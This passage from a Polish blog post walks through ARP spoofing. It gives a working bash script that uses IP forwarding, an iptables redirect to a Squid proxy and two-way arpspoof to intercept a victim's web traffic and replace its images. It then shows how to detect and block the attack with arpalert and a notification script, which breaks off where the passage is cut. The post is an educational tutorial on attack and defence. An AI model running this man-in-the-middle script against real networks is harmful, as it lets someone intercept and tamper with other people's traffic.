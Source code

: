 <pre>/etc/init.d/squid3 restart
/etc/init.d/lighttpd restart</pre>

Poniższy skrypt który uruchamia wszystko za jednym razem różni się od tego pierwszego tym że pojawiły się reguły iptables. Przekierowują one ruch www do proxy które w locie obrabia obrazki i dzięki czemu uzyskam mój cel, podmianę. Dodatkowo dochodzi adres **local** który jest adresem mojej stacji na której uruchomiłem serwer www i proxy.

<pre>#! /bin/bash
 echo 1 &gt; /proc/sys/net/ipv4/ip_forward
 gw=172.18.10.254
 target=172.18.10.12
 local=172.18.10.14
 iptables -F
 iptables -t nat -F
 iptables -t nat -A PREROUTING -p tcp -m tcp --dport 80 -j DNAT --to-destination $local:3128
 /etc/init.d/lighttpd restart
 /etc/init.d/squid3 restart
 xterm -e arpspoof -t $gw $target &
 xterm -e arpspoof -t $target $gw &</pre>

Oto wynik :):)

[<img class="aligncenter size-full wp-image-3841" alt="techfreak_arpspoof2_1" src="http://techfreak.pl/wp-content/uploads/2013/06/techfreak_arpspoof2_1.jpg" width="800" height="586" />][2]

### Jak się bronić przed arpspoof ?

Ja znalazłem program **arpalert** który monitoruje stan przypisanych adresów mac do IP i do którego można podpiąć własne skrypty powiadamiające. Skonfigurowałem sobie go tak aby wyświetlał mi powiadomienie jak poniżej a do tego blokował przy pomocy iptables ruch z nowego (atakującego) mac adresu.

[<img class="aligncenter size-full wp-image-3867" alt="techfreak_arpspoof_arpalert_1" src="http://techfreak.pl/wp-content/uploads/2013/06/techfreak_arpspoof_arpalert_1.jpg" width="800" height="600" />][3]

### Konfiguracja Arpalert

Konfiguracje arpalert przeprowadza się w pliku** /etc/arpalert/arpalert.conf** i zmieniam tam trzy sprawy, użytkownika, na root aby wyświetlać powiadomienia, interfejs na swój np wlan0. Na koniec wskazuje jaki skrypt ma wykonać jeśli wykryje zmiany.

nano /etc/arpalert/arpalert.conf

<pre>user = root
interface = wlan0
action on detect = "/etc/arpalert/alert"</pre>

nano /etc/arpalert/alert

<pre>#! /bin/bash

case $5 in
0 )
AlertType="IP change";;
1 )
AlertType="MAC address already detected but not in white list";;
2 )
AlertType="MAC address in black list";;
3 )
AlertType="New MAC address";;
4 )
AlertType="Unauthorized ARP request";;
5 )
AlertType="Abusive number of ARP request detected";;
6 )
AlertType="Ethernet MAC address different from ARP MAC address";;
7 )
AlertType="Flood detected";;
8 )

 [1]: http://techfreak.pl/wp-content/uploads/2013/06/techfreak_arpspoof_1.jpg
 [2]: http://techfreak.pl/wp-content/uploads/2013/06/techfreak_arpspoof2_1.jpg
 [3]: http://techfreak.pl/wp-content/uploads/2013/06/techfreak_arpspoof_arpalert_1.jpg